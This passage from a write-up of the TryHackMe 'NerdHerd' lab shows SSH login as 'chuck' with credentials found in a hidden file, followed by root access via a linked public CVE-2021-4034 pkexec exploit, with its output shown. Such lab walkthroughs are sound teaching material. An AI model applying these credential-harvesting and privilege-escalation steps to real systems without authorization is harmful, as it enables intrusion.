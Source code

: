 ## Initial access as chuck

The last directory I hadn't explored was the hidden one mentioned in the SMB share hint:

![Hidden Directory](/assets/img/tryhackme/NerdHerd/thm_nerdherd_5.jpg)

Inside, I found a `creds.txt` file containing credentials for the SSH access. I used these credentials to connect as `chuck` via SSH and retrieved the user flag:
```bash
kali@kali:~/ctf/nerdherd$ cat creds.txt
  alright, enough with the games.

  here, take my ssh creds:
    
    chuck : t[removed]s

kali@kali:~/ctf/nerdherd$ ssh chuck@10.10.243.230

chuck@nerdherd:~$ id
  uid=1000(chuck) gid=1000(chuck) groups=1000(chuck),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
chuck@nerdherd:~$ cat user.txt 
  THM{7[removed]e}
```

## Privilege Escalation root
Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
chuck@nerdherd:~$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7fd516b109b0 at 0x7fd51698d6a0>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1000(chuck) groups=1000(chuck),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
